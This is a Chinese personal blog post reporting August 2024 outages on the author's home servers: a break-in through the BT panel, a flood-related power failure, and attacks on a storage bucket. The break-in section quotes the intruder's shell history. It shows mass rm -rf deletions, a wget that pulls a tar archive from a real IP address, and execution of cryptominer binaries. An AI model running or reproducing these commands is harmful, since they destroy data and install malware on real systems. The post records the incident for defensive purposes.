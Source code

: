 ```yaml
---
title: 服务崩溃报告
date: 2024-08-30 18:32:39
updated: 2024-08-30 18:32:39
tags:
cover:
banner:
description:
categories:
---
```



在8月中旬，我在学校尝试远程回家的时候发现出了点意外没想到是出了点大问题啊，简单记录一下
在以后有什么大规模的崩溃也会记录在这里(但愿不要再写下去





## 2024/8

在8月15日下午1点，家里`ikuai-kvm`节点被入侵，执行到的相关命令如下

```bash
  338  free
  339  top
  340  ps aux
  341  apt remove sendmail* docker* container*
  342  ps aux
  343  cd /home
  344  ls
  345  rm -rf *
  346  cd /
  347  ls
  348  rm -rf www
  349  cd /etc/systemd/system
  350  ls
  351  ps aux
  352  ls
  353  rm -rf cloud* db* ddn* nez* mcsm*
  354  ls
  355  cd multi*
  356  ls
  357  rm -rf cloud* db* ddn* nez* mcsm*
  358  ls
  359  rm -rf cont* docker* tail* x-ui*
  360  cd /usr/local
  361  ls
  362  rm -rf x*
  363  rm -rf bt*
  364  cd
  365  ls
  366  w
  367  rm -rf *
  368  reboot
  369  free
  370  ps aux
  371  ls
  372  netstat -lntu
  373  ping 8.8.8.8
  374  yum install msr-tools
  375  apt install msr-tools
  376  apt autoremove
  377  ls
  378  nproc
  379  mkdir .sys
  380  cd .sys
  381  wget http://54.71.19.189:8088/x.tar
  382  tar xzvf x.tar
  383  ./hash
  384  ./s
  385  exit
```

后面就是挖矿病毒了，不是哥们你挖矿就挖矿，你还删我东西啊。他甚至名称都不舍得给我打，用通配符来替代

我当时在学校临时将路由后台映射	切换到另一台服务器下，进到后台后看到路由器cpu温度有70多度，我就知道事情不简单



**影响范围**：图片分发节点，mc服务器官网，图床，Gitea，大量私有服务（无法统计）

**补充**：由于由于图床需要将远程云盘目录映射到本地，同时我也测试镜像站在该服务器的部署，导致在执行清删除操作时同步清除了云盘中挂载的所有内容，合计1405个文件，已恢复

**分析**：包是宝塔了，我另一台在香港的服务器之前用宝塔直接被博彩网站修改nginx配置，现在三台服务器就这一台还是用着宝塔没有迁移了，里面的服务大多是docker虚拟化的，直接部署的也都是开源的程序，基本不会引进病毒，唯一可能的后门最严重的只剩下这个宝塔了。作为对比啊，我内网下另一台服务器用的是1panel，一点事没有。

**措施**：恢复图片分发节点， 迁移图床到`hk-tt`（丢失图床数据），恢复ZTale





在8月21号，家里面线路泡水了，总闸跳了。此外由于故障时间过长，ups干没电了，导致`MC-SERVER`BIOS数据丢失（CMOS电池那部分线路坏了）来电重启后无法从正确的硬盘引导启动，已修复

**影响范围**：mc服务器，部分私有服务

**措施**：已恢复



在8月13号及往后，位于缤纷云的图片储存桶不时遭到攻击，由于我设置了严苛的访问政策，只造成3.12元的损失

**影响范围**：博客首页文章图片，友链头像图片

**措施**：文章封面迁移到自建图床，友链图片并入博客文件
